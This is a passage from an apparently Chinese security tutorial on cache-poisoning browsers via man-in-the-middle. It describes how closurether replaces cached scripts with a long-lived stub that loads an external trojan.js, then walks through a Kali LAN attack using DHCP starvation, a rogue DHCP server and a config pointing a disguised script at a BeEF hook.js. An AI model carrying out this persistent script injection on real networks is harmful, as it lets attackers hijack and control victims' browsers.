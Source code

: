 关闭浏览器（不清除缓存），再次打开，访问360时依然会弹框。

其中，index.js实现了代理并替换原本静态脚本响应内容，并将响应头中[Cache-Control](http://baike.baidu.com/link?url=3QihY_fgx_CczpXn4NaaqfWzkaW9R77Fwt9CzzJ07kS26WG6N4eXRuwEB43a8TIXC5okH96u5CdCN8eEw-Eq1K)字段改为`max-age=31536000`,如下图代码：

![Alt text](http://drops.javaweb.org/uploads/images/82f7d0ef560ba0975a8b5d8424b4755d6a65822a.jpg)

而替换的脚本为asset目录下的stub.js，stub.js注入外部js关键代码如下图：

![Alt text](http://drops.javaweb.org/uploads/images/07a7681357ea471f44f384d18cae596fe456e140.jpg)

其中`www.etherdream.com/hack/trojan.js`为我们可控的js，上例中该js的内容为

```
alert('xss run: ' + location.href);

```

我们可以通过修改该脚本内容来实现不同的功能。

0x04 实战
=======

* * *

此次实战在局域网中结合使用了dhcpstarv,isc-dhcp-server,beef以及closurether。攻击机使用了kali2.0。

**1.开启beef**

```
root@kali:~# cd /usr/share/beef-xss/
root@kali:/usr/share/beef-xss# ./beef

```

**2.配置closurether**

获取最新的缓存列表

```
root@kali:~# cd /usr/local/lib/node_modules/closurether/tool/cache-sniffer
root@kali:/usr/local/lib/node_modules/closurether/tool/cache-sniffer#  phantomjs sniffer.js

```

可以通过修改url.txt的内容来指定网站，此次测试过程中url中包含126以及360几个网站。 配置config.json文件如下:

```
{
        "hacker_url": "http://192.168.1.108:3000/hook.js",
        "inject_url": "http://10086.cn/js10086/201306301200.js",
        "debug": false,
        "dump": false,
        "dumpPath": "./dump/"
}

```

其中`hacker_url`为我们的js地址，此处为beef的js地址，`inject_url`为伪装的js地址。
